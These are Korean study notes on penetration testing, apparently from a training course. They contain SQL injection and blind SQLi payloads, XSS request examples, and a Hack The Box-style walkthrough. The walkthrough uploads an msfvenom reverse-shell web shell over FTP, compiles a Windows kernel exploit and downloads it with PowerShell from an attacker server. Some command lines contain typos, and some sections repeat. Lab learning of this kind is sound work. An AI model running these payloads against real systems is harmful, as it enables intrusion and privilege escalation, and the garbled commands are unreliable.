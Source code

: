 1. 모의해킹 업무 - 보안성 심의, ISMS-P, SR
보안성 심의 - 웹사이트 서비스 전 심의
SR - 새로운 서비스에 대한 페이지, 메뉴에 대한 심의
ISMS-P - 인증을 위한 기술적 심



모의해킹 주의사항:
naver.com에 대한 모의해킹을 진행한다 했을 때, webtoon.naver.com과 같은 상위 도메인에 대한 해킹을 하지 않도록 주의
회원가입 주소찾기의 경우 url이 우체국.com 인 경우도 있는데, 이 경우 union 공격을 하면 안됨 신고당함1. 모의해킹 업무 - 보안성 심의, ISMS-P, SR
보안성 심의 - 웹사이트 서비스 전 심의
SR - 새로운 서비스에 대한 페이지, 메뉴에 대한 심의
ISMS-P - 인증을 위한 기술적 심



모의해킹 주의사항:
naver.com에 대한 모의해킹을 진행한다 했을 때, webtoon.naver.com과 같은 상위 도메인에 대한 해킹을 하지 않도록 주의
회원가입 주소찾기의 경우 url이 우체국.com 인 경우도 있는데, 이 경우 union 공격을 하면 안됨 신고당함

pentestmonkeyt > db sql injection 치트 시트

sql
프론트엔드(html, css) 백엔드(php, asp)
python, javascript, java, C,  


blind sql = 관리자' and (select count(table_name) from information_schema.tables) < 86 #

sas' or 1=1 #


##blind sql 과정
sas'-- 
sas'#

%
'
=
and
()
>
user()
length
사용 가능한지 확인

sas%' (                         ) and '%1%'='%1

sas%' () and '%1%'='%1

-------------------------------------------

sas%' and (1)=(1) and '%1%'='%1

sas%' and 'a'='a' and '%1%'='%1

sas%' and 1<2 and '%1%'='%1

sas%' and user()=user() and '%1%'='%1

sas%' and length(user()=user())>0  and '%1%'='%1

-------------------------------------------


sas%' and length(user())=15  and '%1%'='%1

sas%' and substring(user(),1,1)>char(104)  and '%1%'='%1
or
sas%' and ascii(substring(user(),1,1))>104  and '%1%'='%1 -> i

##blind sql 과정 finish


##burpsuite를 통한 패킷 인젝션
GET /exam7/notice.php?pageIndex=1&board_id=&sorting=title&sotingAd=DESC,case+when+1=1+then+1+else+(select+1+union+select+2)+end&startDt=&endDt=&searchType=all&keyword= HTTP/1.1
GET /exam12/notice.php?pageIndex=1&board_id=&sorting=&sotingAd=DESC&startDt=20231001&endDt=20231031+and+user()user()+and+1=1 &searchType=all&keyword= HTTP/1.1


sql을 예방하기 위한 방법인 prepared statement 중 parse bind execute fetch 단계에서 bind 부분이 가장 중요함 < 더 공부하기


##xss
크사 공격시 //가 필터링 되어 있다면 https:www.naver.com 혹은 https:\\www.naver.com 등으로 우회할 수 있음

reflected 크사 공격 예시 : GET /exam16/notice.php?pageIndex=1"><script>alert("xss")</script>&board_id=&sorting=&sotingAd=DESC&startDt=&endDt=&searchType=all&keyword=xss HTTP/1.1
reflected크사 공격 예시 : GET /exam17/noticeview.php?pageIndex=1&board_id=';}{alert("xss");'&sorting=&sotingAd=DESC&startDt=&endDt=&searchType=all&keyword= HTTP/1.1

##stored 크사 공격 예시 게시판:
POST /exam20/process/faqProcess.php HTTP/1.1
Host: quiz.sas.ne.kr
Content-Length: 649
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: ko-KR,ko;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvNc3w5VLMU4OrJW7
Origin: http://quiz.sas.ne.kr
Referer: http://quiz.sas.ne.kr/exam20/faqwrite.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=saq70jpkrdufu9868hpjmuokn5
Connection: keep-alive

------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="boardId"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="regType"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="title"

test
------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="fileupload"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="aFiles"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="content"

<p></p><script>alert("xss");</script>
------WebKitFormBoundaryvNc3w5VLMU4OrJW7--

##stored 크사 게시판 html 이용 : <img src="#" onerror="alert('XSS')"> 또는 <script>alert("xss");</script>





##kali linux
kali-linux-2024.3-vmware-amd64.vmwarevm 설치/ google kali linux

sudo apt-get install tree
tree -L 1

which passwd
which -a passwd
locate *flag.*
locate *flag.* -c 개수 출력

mkdir test
ls -alh 

cd test
touch flag.txt
sudo chown kali:kali flag.txt

echo "This is a flag file" | sudo tee flag.txt
find / -type f -user kali -name *flag.* -ls
find / -type f \( -perm -4000 -o -perm -2000 \) -ls

which passwd 
ls -l /usr/bin/passwd

##shell

##grep
grep sas *
grep sas -i *
grep sas -i -R *
grep sas -i -R -n*

cut -c 1-5 /etc/passwd
cut -d ":" -f 1 /etc/passwd
cut -d ":" -f 6 /etc/passwd

awk {print} /etc/passwd
awk -F ':' '{print $1}' /etc/passwd
awk -F ':' '{print $6}' /etc/passwd
awk -F ':' '{print "ID:" $1}' /etc/passwd


diff -c file1.txt file2.txt
![image](https://github.com/user-attachments/assets/e28033ab-bb2b-43d7-ad79-430b2620745f)


##listening/nmap
10.129.27.231

mkdir htb
mkdir htb/devel
cd htb/devel

nmap --top-ports 2000 --max-retries 2 -Pn -n --open --min-rate 1000 10.129.27.231 -oA tcpFull
nmap -p 21, 80 -sV -sC -Pn -n --open 10.129.17.110 -oA tcpDetailed

msfvenom -p windows/shell_reverse_tcp -f aspxlhost=10.10.14.25 lport=443 -o pentset.aspx

i686-w64-mingw32-gcc: 리눅스에서 윈도우용 실행파일을 생성하는 32비트 컴파일러
40564.c: 컴파일할 소스 코드 파일
-lws2_32: 윈도우 소켓 기능을 사용하기 위해 ws2_432 라이브러리를 링크

powershell.exe -c iex(new-objectnet.webclient).downloadfile('http://10.10.14.11:8443/ms11-046.exe', 'c:\windows\temp\ms11-046.exe')


##pentest senario 1.웹쉘 업로드 시나리오
nmap --top-ports 2000 --max-retries 2 -Pn -n --open --min-rate 1000 10.129.27.231 -oA tcpfull
nmap -p 21, 80 -sV -sC -Pn -n --open 10.129.198.222 -oA tcpDetailed

ftp 10.129.27.231
id anonymous
pw 그냥엔터

80번 포트 -> http://10.129.27.231/  에도 접속 해봄

ftp -> get, put 읽고, 쓰기 기능 확인

ftp에 리버스 쉘을 업로드해서 실행시켜서 접속시킬 예정
msfvenom -p windows/shell_reverse_tcp -f aspx lhost=10.10.14.46 lport=443 -o pentest.aspx

nc -lvnp 443 < 리스닝

ftp를 이용해서 공격자 pc 에서 만들 리버스 쉘 페이로드를 타겟 px로 파일 전송
ftp 연결 후 
ftp>put pentest.aspx
공격자 리스닝해주고, 웹페이지 접속해서 업로드된 페이로드 실행

systeminfo
운영체제 확인 후 핫픽스 확인 -> kernel exploit -> wesng

sudo pip3 install wesng
wes --update

systeminfo < 내용 복사 후 systeminfo.txt로 저장
wes systeminfo.txt -o out.csv
cat out.csv | grep -i privilege | grep -i 'windows 7' | grep -i exploit-db

searchsploit 40564 -p
cp /usr/share/exploitdb/exploits/windows_x86/local/40564.c .

컴파일러 설치
apt update -y
apt install mingw-w64 -y

커널 exploit에 사용할 pe 파일 컴파일
i686-w64-mingw32-gcc 40564.c -o ms11-o46.exe -lw2_32

i686-w64-mingw32-gcc : 리눅스에서 윈도우용 실행 파일을 생성하는 32비트 컴파일러
40564.c : 컴파일할 소스 코드 파일
-lw2_32 : 윈도우 소켓 기능을 사용하기 위해 ws2_32 라이버리를 링크

제작한 파일을 윈도우 서버에 전송
python3 -m http.server 8443

cd c:\windsows\temp
powershell.exe -c iex(new-objectnet.webclient).downloadfile('http://본인IP/ms11-046.exe', 'c:\windows\temp\ms11-046.exe')

